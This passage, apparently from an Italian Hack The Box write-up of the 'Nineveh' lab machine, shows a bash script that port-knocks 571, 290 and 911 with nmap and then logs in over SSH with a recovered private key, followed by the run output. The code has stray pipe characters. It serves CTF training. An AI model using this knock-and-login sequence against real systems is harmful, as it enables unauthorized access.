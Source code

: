 il file ci dice che che possiamo aprire SSH colpendo 571, 290 e poi 911 con syns, tutto entro 5 secondi, e così facendo, aggiungerà una regola per consentire al mio IP di raggiungere la porta 22.

scriviamo un semplice script dove andremo a dire ad [Nmap] di "bussare " in sequenza alle porte 571,290,911 ed infine ad di aprire una connessione SSH

```bash
for i in 571, 290, 911; do|
nmap -p ${i} --max-retries 0 -Pn 10.10.10.43
done

ssh -i nineveh.priv amrois@10.10.10.43|
```


1. Il loop "for" viene utilizzato per iterare su una lista di numeri di porta: 571, 290 e 911.
2. Per ogni iterazione del loop, viene eseguito il comando "nmap" per effettuare una scansione di porto sull'indirizzo IP 10.10.10.43 utilizzando la porta corrente specificata dalla variabile ${i}.
    - La flag "-p" specifica la porta da scansionare.
    - La flag "--max-retries 0" imposta il numero massimo di tentativi di connessione a 0, quindi non verranno effettuati nuovi tentativi dopo un fallimento.
    - La flag "-Pn" disabilita la scansione del ping, in modo che nmap non effettui un ping prima di eseguire la scansione di porta.
3. Dopo l'iterazione del loop, viene eseguito il comando "ssh" per connettersi a 10.10.10.43 come utente "amrois", utilizzando il file di chiave privata "nineveh.priv".

Gli diamo i permessi di esecuzione e eseguiamo lo script

```bash
┌──(root㉿kali)-[/home/…/htb/nineveh/_nineveh.png.extracted/secret]
└─# chmod +x knock.sh
┌──(root㉿kali)-[/home/…/htb/nineveh/_nineveh.png.extracted/secret]
└─# ./knock.sh
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 08:30 EDT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.

PORT    STATE    SERVICE
571/tcp filtered umeter

Nmap done: 1 IP address (1 host up) scanned in 1.28 seconds
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 08:30 EDT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.

PORT    STATE    SERVICE
290/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 08:30 EDT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.

PORT    STATE    SERVICE
911/tcp filtered xact-backup

Nmap done: 1 IP address (1 host up) scanned in 1.20 seconds
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

```